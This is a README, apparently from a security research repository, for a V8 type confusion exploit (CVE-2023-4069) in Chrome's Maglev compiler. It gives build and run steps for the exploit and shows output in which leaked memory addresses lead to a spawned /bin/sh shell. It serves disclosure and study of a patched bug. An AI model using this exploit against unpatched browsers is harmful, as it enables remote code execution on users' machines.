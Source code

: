 ## V8 type confusion CVE-2023-4069

The analysis of this bug can be found [here]( https://github.blog/2023-10-17-getting-rce-in-chrome-with-incomplete-object-initialization-in-the-maglev-compiler). 

The exploit here is tested on `v8` version 11.5.150.16, which is the version shipped with Chrome 115.0.5790.98/99, the one before the bug was fixed, on Ubuntu 22.04. I have not tested it on Chrome itself.

To test, check out `v8` at version 11.5.150.16 and compile with the default settings using `tools/dev/gm.py x64.release`. Then open the file `poc.js` with `d8` with the `maglev` flag (Chrome would have enabled this flag already):

```
./d8 --maglev poc.js
```

On Ubuntu 22.04, it should call `execve("/bin/sh")` to spawn a new process:

```
./d8 --maglev exploit.js
oobDblAddr: 421e9
oobDblArr new length: 256
oobDblAddr2: 42251
oobObjAddr: 42299
func Addr: 19bf6d
code Addr: 19eb79
maglev Addr: e000d900 55d6
$ 
```

Shell code and some addresses may need changing on other platforms.


